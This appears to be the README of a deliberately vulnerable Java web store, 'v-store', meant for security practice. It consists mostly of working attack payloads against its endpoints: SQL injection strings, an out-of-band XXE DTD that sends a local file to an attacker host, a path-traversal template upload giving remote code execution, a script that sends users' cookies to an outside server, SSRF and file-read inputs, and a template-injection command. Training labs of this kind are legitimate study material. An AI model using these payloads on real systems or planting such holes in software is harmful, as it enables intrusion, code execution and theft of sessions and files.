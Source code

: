 # v-store
/Vstore

## Bug API
### 1. GET "/product/findUnsafe"
- Bug: SQLi
- Params: {name}
- Payload:
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: http://localhost:8080/product/findUnsafe?name=' OR 6776=6776#
    
    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: http://localhost:8080/product/findUnsafe?name=a'union+select+user_name,null,null,null+from+user;%23

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND GTID_SUBSET(CONCAT(0x716b6b6a71,(SELECT (ELT(8054=8054,1))),0x716b717871),8054)-- jkbJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND (SELECT 5823 FROM (SELECT(SLEEP(5)))RyfP)-- FGig
    
### 2. POST "/product/showBillVuln"
- Bug: Blind Out-of-Band XXE
- Params: object User in body request
- Payload: 
+ SSRF 
```
  <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://kayrz7fdlsb6w9gif751ob26rxxtli.burpcollaborator.net"> ]>
    <user>
      <id_user>&xxe;</id_user>
    </user>
  ```
+ OOB

--- DTD file ---
```
<!ENTITY % file SYSTEM "file:///d:/cache.txt">
        <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker-host/%file;'>">
        %eval;
        %exfiltrate;
```
-- payload --
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://DTD-url"> %xxe;]>
<user>
<id_user>1</id_user></user>
```

### 3. POST "/product/buy"
- Bug: Logic
- Params: {num, id}
- Payload: num=-1&id=5

### 4. GET "/infoUserVuln"
- Bug: IDOR
- params: id
- payload: id=4

### 5. POST "/upAVTVuln"
- Bug: upload file avt tùy ý dẫn tới RCE, CSS
- params: image
- Payload: 
```
   POST /upAVT HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

----WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="../../templates/home.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC </h1>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
- Payload RCE: 
+ Upfile:
```
   POST /upAVT HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

----WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="../../templates/home.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC RCE</h1>
<p th:text="${T(java.lang.Runtime).getRuntime().exec('calc')}"/>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
- Payload CSS:
```
POST /upAVTVuln HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

------WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="css.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC CSS</h1>
<script>
            var cookie = document.cookie;
            let xhr = new XMLHttpRequest();
            let url = "http://sonnguy3n.info:8888/?a=";					
            xhr.open("GET", url+cookie, true);						            
            xhr.send();
</script>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
+ Link CSS: GET "/getImage?name=css.html"


### 6. POST "/upAVTUrlVuln"
- Bug: SSRF
- Params: url
- Payload: 
"http://host.com/pic.png"
"file:c:/C:/Windows/system.ini"

### 7. GET "/getImage"
- Bug: get file tùy ý
- Params: name
- payload: "../../templates/home.html"
   
### 8. GET
- Bug: Template Injection
- Payload:
```
T(org.apache.commons.io.IOUtils).toString(
    T(java.lang.Runtime).getRuntime().exec('powershell ls').getInputStream(),
    T(java.nio.charset.StandardCharsets).UTF_8.name()
    )
```
